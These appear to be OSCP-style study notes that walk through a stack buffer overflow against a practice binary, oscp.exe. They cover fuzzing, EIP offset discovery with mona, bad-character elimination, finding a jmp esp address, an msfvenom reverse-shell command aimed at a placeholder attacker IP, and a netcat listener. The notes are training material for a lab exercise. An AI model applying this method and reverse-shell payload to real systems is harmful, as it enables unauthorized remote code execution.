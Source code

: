 # Buffer Overflow Prep

### oscp.exe - OVERFLOW1

**Crash Replication and Controlling EIP**

Fuzz the server until it crashes then note the byte value. Use the metasploit tool 
pattern_create.rb to create a cyclic pattern 400 bytes longer than the value that crashed 
the server (2400).

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400`

Copy the output and place it in the payload variable in exploit.py.

Run oscp.exe in Immunity Debugger and run exploit.py then, when the server has crashed, run 
`!mona findmsp -distance 2400` to find the EIP offset.

Set the offset in exploit.py to the offset value here:
`EIP contains normal pattern : ... (offset XXXX)`

And set retn to BBBB in exploit.py

Run the exploit and the EIP should be overwritten with 4 B's (42424242)

badchars: `\x00\x07\x08\x2e\x2f\xa0\xa1`

[Fuzzing script](./fuzzing.py)
[Exploit script](./exploit.py)

**Finding bad chars**

Create a bytearray with mona `!mona bytearray -b "\x00"` 
*Note: -b is deprecated and was replaced by -cpb*

Use python to generate a string of bad chars identical to the bytearray

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Paste the generated badchars into the payload variable in exploit.py and run it.

Copy the ESP register in ImmunityDebugger and use it in the following mona command:
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

A popup called mona memory comparison results should appear with the badchars

Update the bytearray with mona and the exploit payload, removing the badchars from the popup

Repeat the process until the popup returns a status of Unmodified, indicating no more 
badchars remain.

**Finding a Jump Point**

Run `!mona jmp -r esp -cpb <badchars>` to find all jmp esp instructions with addresses that 
don't contain any of the specified badchars

Copy one of the addresses and use it to set the retn variable in exploit.py.

The addresses are in little endian so need to be reversed.

**Generate Payload**

Use msfvenom to generate the payload 
`msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=4444 EXITFUNC=thread -b <BADCHARS> -f c`

Update the payload variable to use the shellcode using the following formatting:
```
payload = ("\xba\xbf\xef\xf4\xc3\xd9\xf6\xd9\x74\x24\xf4\x5e\x29\xc9"
...
"\x89")
```

**Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory 
for the payload to unpack itself. 

You can do this by setting the padding variable to a string of 16 or more "No Operation" 
(\x90) bytes 
`padding = "\x90" * 16`

**Exploit!**

Start netcat listener on the attacking machine and run exploit.py to gain a shell on the 
target.

### oscp.exe - OVERFLOW2

Fuzzing crashed the target at 700 bytes

EIP offset is 634

Found badchars: "\x00\x23\x3c\x83\xba"

Found jump point: 625011AF 

### oscp.exe - OVERFLOW3

Fuzzing crashed at 1300 bytes

EIP offset is 1274

Badchars are: "\x00\x11\x40\x5f\xb8\xee" 
